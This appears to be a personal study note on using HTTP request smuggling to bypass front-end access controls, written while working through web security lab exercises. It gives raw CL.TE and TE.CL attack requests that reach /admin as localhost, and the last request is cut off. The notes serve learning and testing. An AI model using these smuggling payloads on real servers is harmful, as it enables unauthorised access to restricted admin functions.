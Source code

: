 # Bypass front-end security controls 

In some applications, the front-end web server is used to implement some security controls, deciding whether to allow individual requests to be processed. Allowed requests are forwarded to the back-end server, where they are deemed to have passed through the front-end controls.

Suppose an application uses the front-end server to implement access control restrictions, only forwarding requests if the user is authorized to access the requested URL. The back-end server then honors every request without further checking. In this situation, an [HTTP Request Smuggling](HTTP%20Request%20Smuggling.md) vulnerability can be used to bypass the [Access control security models](Access%20control%20security%20models.md), by smuggling a request to a restricted URL and exploiting a [Access control vulnerabilities](Access%20control%20vulnerabilities.md).

>[!warning]
>The backend accepts only requests to `/admin` coming from localhost

## CL.TE

Attack:
```http
POST / HTTP/1.1
Host: 0ae300050316c7b48009dfa800160065.web-security-academy.net
Cookie: session=6mzG5fVnhsS7E03xWxhN3E9BRW3nf4iW
Connection: close
Content-Length: 66
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Host: localhost
Content-Length: 3

1
```

Next request:
```http
POST /admin HTTP/1.1
Host: localhost
Content-Length: 3

1GET /404 HTTP/1.1
Host: 0ae300050316c7b48009dfa800160065.web-security-academy.net
Cookie: session=6mzG5fVnhsS7E03xWxhN3E9BRW3nf4iW
Connection: close
```

## TE.CL

Attack: 
```http
POST / HTTP/1.1
Host: 0a760099041742d2814f617a000300b2.web-security-academy.net
Cookie: session=sa4mrB1fNXJCteO58Hux3rgMtC5ef7o0
Connection: close
Content-Length: 4
Transfer-Encoding: chunked

45
POST /admin HTTP/1.1
Host: localhost
Content-Length: 150

```